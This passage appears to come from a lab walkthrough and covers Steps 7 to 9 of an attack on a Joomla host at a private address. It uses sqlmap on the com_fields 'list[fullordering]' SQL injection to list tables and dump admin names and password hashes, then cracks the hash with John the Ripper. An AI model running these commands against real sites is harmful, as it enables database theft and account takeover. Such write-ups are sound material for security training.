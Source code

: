 ```
available databases [5]:
[*] information_schema
[*] joomladb
[*] mysql
[*] performance_schema
[*] sys
```

---

## Step 7 — Enumerate tables in `joomladb`

```
sqlmap -u "http://192.168.0.106/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb --tables -p "list[fullordering]" --batch
```

---

## Step 8 — Dump the Joomla users table

Target the users table (table prefix may vary; `#__users` used as an example):

```
sqlmap -u "http://192.168.0.106/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb -T '#__users' -C name,password --dump -p "list[fullordering]" --batch
```

**Result (sample):**

```
name   | password
+--------+--------------------------------------------------------------+
| admin  | $2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu
```

We have the `admin` username and a password hash.

---

## Step 9 — Crack the Joomla hash with John

Save the hash into `hash.txt` and run John the Ripper with a wordlist:

```
john hash.txt --wordlist=/usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-1000000.txt
```

After cracking, view the result:

```
john hash.txt --show
```
